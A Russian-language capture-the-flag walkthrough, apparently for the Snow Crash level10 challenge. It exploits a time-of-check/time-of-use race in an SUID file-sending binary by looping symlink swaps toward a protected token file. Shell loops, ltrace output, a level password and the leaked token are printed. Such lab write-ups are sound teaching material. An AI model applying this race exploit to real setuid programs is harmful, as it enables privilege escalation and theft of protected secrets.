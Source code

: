 ```
ls -l
```
> total 16\
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10\
-rw-------  1 flag10 flag10     26 Mar  5  2016 token\

Все как обычно SUID и бинарь с токеном

```
./level10
```
> ./level10 file host\
	sends file to host if you have access to it

Попытавшись запустить видим что бинарник ждет файл и хоста

Создадим какой-нибудь файл и подадим его

```
echo 123 > /tmp/file
./level10 /tmp/file 127.0.0.1
```
> Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1

Не удается подключиться к хосту, попробуем послушать его через nc:
Откроем новый терминал:
```
ssh -p 4242 level10@<HOST>
```
Пароль:
```
s5cAJpM8ev6XHw998pRWG728z
```
Открываем соединение
```
nc -lk 127.0.0.1 6969
```

Пробуем подать бинарнику нужные параметры:

```
echo 123 > /tmp/file;
./level10 /tmp/file 127.0.0.1;
```
> Connecting to 127.0.0.1:6969 .. Connected!\
Sending file .. wrote file!

В новом терминале увидим такое содержимое:
> .*( )*.\
123\

Попробуем разобраться в том, что же такое делает этот бинарник:

```
ltrace ./level10 /tmp/file 127.0.0.1
```
> \_\_libc_start_main(0x80486d4, 3, 0xbffff794, 0x8048970, 0x80489e0 <unfinished ...>\
access("/tmp/file", 4)                                = 0\
printf("Connecting to %s:6969 .. ", "127.0.0.1")      = 32\
fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                                    = 0\
socket(2, 1, 0)                                       = 3\
inet_addr("127.0.0.1")                                = 0x0100007f\
htons(6969, 1, 0, 0, 0)                               = 14619\
connect(3, 0xbffff6dc, 16, 0, 0)                      = 0\
write(3, ".*( )*.\n", 8)                              = 8\
printf("Connected!\nSending file .. "Connected!\
)                = 27\
fflush(0xb7fd1a20Sending file .. )                                    = 0\
open("/tmp/file", 0, 010)                             = 4\
read(4, "123\n", 4096)                                = 4\
write(3, "123\n", 4)                                  = 4\
puts("wrote file!"wrote file!\
)                                   = 12\
+++ exited (status 12) +++

Cамые первый вызов это access, узнаем о нем
```
man access
```
> Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user\
       might  exploit  the  short time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.\
       (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)\


Прочитав man видим, что при вызове access() нужно быть аккуратным:
**Это условие гонки. Мы выполняем access(), затем open(). За короткое время между двумя вызовами файл мог измениться.
создаем файл /tmp/exploit который изначально принадлежит нам. 
а целью является token. Приложение выполняет access(), видит, что файл действительно принадлежит пользователю, а значит может обработать этот файл.
Затем мы быстро заменяем файл символической ссылкой на token. Приложение уже приняло решение открыть /tmp/exploit.
Но когда оно это делает, оно действительно открывает и обрабатывает token.**

В одном терминале постоянно меняем ссылку, чтобы попасть в этот промежуток времени между access и open
```
touch /tmp/exploit;
echo 123 > /tmp/file;
while true; do ln -fs ~/token /tmp/exploit; ln -fs /tmp/file /tmp/exploit; done &
```

Далее запускаем этот скрипт:
```
while true; do ./level10 /tmp/exploit 127.0.0.1; done
```
> ...\
.*( )*.\
123\
.*( )*.\
woupa2yuojeeaaed06riuj63c\
.*( )*.\
123\
...

